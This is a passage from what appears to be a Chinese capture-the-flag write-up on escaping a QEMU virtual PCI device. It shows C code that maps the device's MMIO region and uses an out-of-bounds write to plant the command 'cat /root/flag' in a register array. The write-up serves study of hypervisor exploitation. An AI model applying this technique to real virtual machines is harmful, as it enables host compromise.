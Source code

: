 ```
}
--------------------------------------------------------------------------------------------------------
mmio:

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
if (mmio_fd == -1)
    die("mmio_fd open failed");

mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
if (mmio_mem == MAP_FAILED)
    die("mmap mmio_mem failed");
--------------------------------------------------------------------------------------------------------
```

下面我们先执行越界写把"cat /root/flag"写入到regs[2]，对应代码如下：

```
int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
if (mmio_fd == -1)
    die("mmio_fd open failed");

mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
if (mmio_mem == MAP_FAILED)
    die("mmap mmio_mem failed");

printf("mmio_mem @ %p\n", mmio_mem);
  
mmio_write(8,0x20746163);
mmio_write(12,0x6f6f722f);
mmio_write(16,0x6c662f74);
mmio_write(20,0x6761);
```

这里因为是写入到regs[2]，并且regs数组是uint32_t的所以说数组里一个元素占4个字节，所以对应要想写入到regs[2]就需要从第9个字节开始写入，所以第一个mmio_write的addr设置的为8，然后我们来动调看一下相应的位置是否被我们修改成功了
